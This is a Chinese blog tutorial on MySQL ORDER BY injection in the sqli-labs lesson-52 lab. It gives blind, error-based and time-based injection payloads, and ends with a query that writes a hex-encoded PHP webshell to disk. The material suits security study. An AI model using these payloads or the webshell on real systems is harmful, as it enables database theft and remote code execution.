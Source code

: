 ```yaml
---
title: MySQL注入系列之order by 注入(二)
date: 2017-03-22 14:21:44
categories: Web安全
tags:
    - MySQL注入
    - order by
---
```


## order by 基础知识

`ORDER BY {col_name | expr | position}`, order by 后面可以跟字段名，表达式和字段的位置，字段的位置需要是整数型。

<!-- more -->

## 实验环境

本地搭建 [sqli-lab](https://github.com/Audi-1/sqli-labs) 环境，选取lesson-52作为盲注测试目标

* lesson-52 核心代码

    ```php
    $id=$_GET['sort'];    
    if(isset($id))
    {
        ...
        $sql="SELECT * FROM users ORDER BY $id";
    ```

使用`asc`和`desc`关键词测试是否为order by 注入，根据下面结果可以得知注入点为order by注入

{% asset_img asc.png %}
{% asset_img desc.png %}

## order by 注入

基于 order by 的注入有盲注和报错注入

## order by 盲注

### 需要知道`字段名`

需要`字段名`的情况通常是，执行了查询语句，然后根据查询结果排序的差别进行盲注

* 使用 if(1<2, id, username)或者类似的表达式来布尔盲注或者时间盲注

条件判断之后需要选择字段名，如: id，username，而不能是1，2等表示字段的位置的数字，因为1，2会被判断为字符返回，而不是整数类型，所以必须知道字段名。

```
case when (true) then id else username end

if((select ascii(substr(table_name,1,1)) from information_schema.tables limit 1)<=128,id,username)
```

### 不需要知道`字段名`

* 引起mysql错误进行盲注

```
if(1=0,1,(select 1 from information_schema.tables))
case when(2<1) then 1 else 1*(select 1 from information_schema.tables)end)=1
```

条件为false是，值为`select 1 from information_schema.tables`，mysql会报错: `Subquery returns more than 1 row`, 导致查询结果为空.

这样就可以根据查询结果是否为空，判断条件的真假


* 基于时间的盲注

```
if(1,sleep(3),1)
```

* 基于rand()的盲注

`order by rand(true);` `order by rand(false);` 返回不同进行盲注。原理是 order by rand()会随机给每个数据生成一个随机数，然后按照随机数排序，true和false实际上转成了整形的1和0作为rand()的种子，这样给每一列都会成一个固定的数，然后根据这个数来排序，所以结果会不同。

```
rand(ascii(mid(database(),1,1))=109)
```

## order by 报错注入


### procedure 存储过程

* 支持报错

本地测试没成功，可能和mysql版本有关

```
mysql> SELECT 1 from mysql.user order by 1 limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.1.73-log'
```

* 不支持报错，用time-based

```
mysql> SELECT 1 from mysql.user order by 1 limit 0,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(50000000,SHA1(1)),1))))),1);
ERROR 1105 (HY000): XPATH syntax error: ':0'
```

* GETSHELL：

```
mysql> SELECT 1 from mysql.user order by 1 limit 0,1 into outfile '/tmp/2.php' LINES TERMINATED BY 0x3C3F7068702061737365727428245F504F53545B70765D293B3F3E;
Query OK, 1 row affected (0.00 sec)
```
